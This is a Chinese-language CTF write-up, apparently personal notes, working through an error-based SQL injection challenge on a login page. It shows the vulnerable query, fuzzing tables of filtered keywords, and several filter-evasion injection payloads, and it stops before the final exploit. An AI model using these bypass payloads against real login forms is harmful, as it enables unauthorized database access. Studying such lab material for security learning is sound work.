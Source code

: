 # 加了料的报错注入

## 题目

> http://ctf5.shiyanbar.com/web/baocuo/index.php
>
>
> Please login! tips:post username and password... 

分类：`sql injection` `sql语句已知`

## 流程图

## 解题步骤

#### 参考文章

无

#### 步骤

##### 0x1 查看源文件

```mysql
 $sql="select * from users where username='$username' and password='$password'";  
```

所以，应该post提交username和password字段

##### 0x2 常规测试 

1. 在hackbar中提交正常值

```mysql
username=admin&password=admin
```

返回

> ## Login failed

2. 常规测试

   1. `''`

      ```mysql
      username=admin'&password=admin
      ```

      返回

      > You have an error in your SQL syntax; check the manual that corresponds  to your MySQL server version for the right syntax to use near 'admin''  at line 1 

      说明存在sql注入，字符型

   2. `' and 1=1#`

      ```mysql
      username=admin' and 1=1#&password=admin
      ```

      返回

      > # Sql injection detected

   3. 发现有sql注入检测，bp跑一下

      > Request	Payload	Length
      > 40	(	270
      > 41	)	270
      > 59	,	270
      > 3	substr	273
      > 4	sleep	273
      > 7	union	273
      > 11	limit	273
      > 15	order by	273
      > 29	mid	273
      > 30	ord	273
      > 26	rand	273
      > 34	#	273
      > 44	-	273
      > 45	=	273
      > 53	;	273
      > 2	to	337
      > 0		337
      > 1	for	337
      > 6	select	337
      > 8	concat	337
      > 9	or	337
      > 5	ExtractValue	337
      > 10	and	337
      > 13	||	337
      > 14	group by	337
      > 12	&&	337
      > 16	into outfile	337
      > 17	into	337
      > 18	into dumpfile	337
      > 19	having	337
      > 20	where	337
      > 22	update	337
      > 23	delete	337
      > 21	insert	337
      > 24	updatexml	337
      > 25	if	337
      > 27	from	337
      > 28	information_schema	337
      > 32	!	337
      > 33	@	337
      > 31	~	337
      > 35	$	337
      > 36	%	337
      > 37	^	337
      > 38	&	337
      > 39	*	337
      > 42	_	337
      > 43	+	337
      > 46	[	337
      > 48	{	337
      > 49	}	337
      > 47	]	337
      > 51	|	337
      > 52	:	337
      > 54	"	337
      > 56	<	337
      > 57	>	337
      > 58	?	337
      > 61	/	337
      > 62	`	337
      > 60	.	337    
      >
      > 50	\	360
      > 55	'	360

      有三种情况:

      270:`User name unknow error.`

      273:`Sql injection detected`

      337: `Login failed`

      360:`You have an error in your SQL syntax; check the manual that corresponds  to your MySQL server version for the right syntax to use near 'admin''  at line 1 ` 

   4. sql语句为

      ```mysql
       $sql="select * from users where username='$username' and password='$password'";
      ```

      构造查询语句

      ```mysql
      admin' union select 1 where 't'='t
      ```

      ~~双重sql语句测试~~（只能用于过滤，不能用于检测到即报错的情况）

      ```mysql
      admin' unionunion select 1 where 't' regexp 't
      ```

      ~~被检测到，使用嵌套双重sql~~（同上）

      ```mysql
      admin' ununionion select 1 where 't' regexp 't
      ```

      仍然被检测到，使用大小写

      ```mysql
      admin' Union select 1 where 't' regexp 't
      ```

      仍然被检测到，修改空格字符为`%0a`

      ```mysql
      admin'%0aUnion%0aselect%0a1%0awhere%0a't'%0aregexp%0a't
      ```

      仍然被检测到，考虑报错注入；

##### 0x3 报错注入

   查看username字段中`updatexml`未被过滤，但是`（）`被过滤掉了，再fuzz一下`password`

> Request	Payload	Length
> 0		337
> 1	regexp	337
> 2	like	273
> 3	between	337
> 4	for	337
> 5	to	337
> 6	substr	273
> 7	sleep	273
> 8	ExtractValue	270
> 9	select	337
> 10	union	273
> 11	concat	337
> 12	or	337
> 13	and	337
> 14	limit	273
> 15	&&	337
> 16	||	337
> 17	group by	337
> 18	order by	273
> 19	into outfile	337
> 20	into	337
> 21	into dumpfile	337
> 22	having	337
> 23	where	337
> 24	insert	337
> 25	update	337
> 26	delete	337
> 27	updatexml	270
> 28	if	337
> 29	rand	273
> 30	from	337
> 31	information_schema	337
> 32	mid	273
> 33	ord	273
> 34	~	337
> 35	!	337
> 36	@	337
> 37	#	273
> 38	$	337
> 39	%	337
> 40	^	337
> 41	&	337
> 42	*	337
> 43	(	337
> 44	)	337
> 45	_	337
> 46	+	337
> 47	-	273
> 48	=	273
> 49	[	337
> 50	]	337
> 51	{	337
> 52	}	337
> 53	\	357
> 54	|	337
> 55	:	337
> 56	;	273
> 57	"	337
> 58	'	357
> 59	<	337
> 60	>	337
> 61	?	337
> 62	,	337
> 63	.	337
> 64	/	337
> 65	`	337

发现`()`没有被过滤，可以使用报错注入


## 漏洞挖掘思路

- 无

## 自动化解析

- TODO

- 设定题目难度等级`level`为
- 提交相应符合要求的字符串

